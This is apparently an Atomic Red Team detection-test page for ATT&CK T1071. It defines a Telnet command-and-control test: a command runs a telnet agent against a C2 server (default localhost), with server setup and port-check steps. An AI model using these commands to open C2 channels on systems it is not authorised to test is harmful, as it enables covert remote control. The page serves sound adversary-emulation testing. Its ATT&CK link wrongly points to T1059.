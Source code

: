 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---autoit)


<br/>

## Atomic Test #1 - Telnet C2
Establish connection between compromised client to C2 server via Telnet

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | localhost |
| server_port | C2 server port | number | 23 |
| client_path | Path to telnet agent | path | PathToAtomicsFolder\T1071\src\telnet_client.exe |


#### Attack Commands: Run with `powershell`! 


```cmd
.\#{client_path} #{server_ip} --port #{server_port}
```

#### Dependencies Run with `powershell`!:
Start C2 server with telnet_server.exe in src folder. You can either start it on localhost or other IP.

```powershell
.\telnet_server.exe server_ip --port port_number
```

##### Description: C2 Server must be reachable.
##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}

if ($connection.TcpTestSucceeded) {
          Write-Output "Port #{server_port} is open."
          exit 0
} else {
          Write-Output "Port #{server_port} is closed or unreachable."
          exit 1
      }
```


<br/>
<br/>
